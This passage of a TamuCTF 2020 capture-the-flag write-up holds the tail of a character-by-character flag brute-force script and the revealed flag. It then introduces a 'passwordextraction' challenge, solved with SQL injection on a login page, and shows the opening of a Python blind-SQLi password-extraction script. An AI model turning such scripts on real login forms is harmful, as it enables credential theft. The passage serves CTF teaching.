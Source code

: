 ```python
        currentletter = currentletter + 1
    if '"correct": false' in resp:
        currentdic = currentdic + 1
        if len(dic) == currentdic:
            print("[x] Couldn't crack {}-th character, exiting ...")
            break
    if 'Bad Gateway' in resp:
        print("[x] Bad Gatway, should wait 5 seconds ...")
        sleep(5)
```

🏁 __gigem{1_4m_g0od_47_m4tH3m4aatics_n07_s3cUr1ty_h3h3h3he}__{:.spoiler}

## passwordextraction

> The owner of this website often reuses passwords. Can you find out the password they are using on this test server?

This challenge welcomes us with a classic login page. Naively trying to login using an SQL injection we succeed!
![passexlogin](/assets/img/TamuCTF_2020/passextraction_1.png)
Or did we ?
![passexfail](/assets/img/TamuCTF_2020/passextraction_2.png)
It seems like we need something more creative in order to extract our password.
A simple SQLi script written in python will be good enough

```python
#!/bin/python
import requests
import string

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Origin': 'http://passwordextraction.tamuctf.com',
    'Upgrade-Insecure-Requests': '1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://passwordextraction.tamuctf.com/',
    'Accept-Language': 'it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7,fr;q=0.6',
}

dic = string.ascii_lowercase + string.ascii_uppercase + string.punctuation + string.digits
diclen = len(dic)

found = False
result = ""

for i in range(1, 100):
    found = False
    for char in dic:
```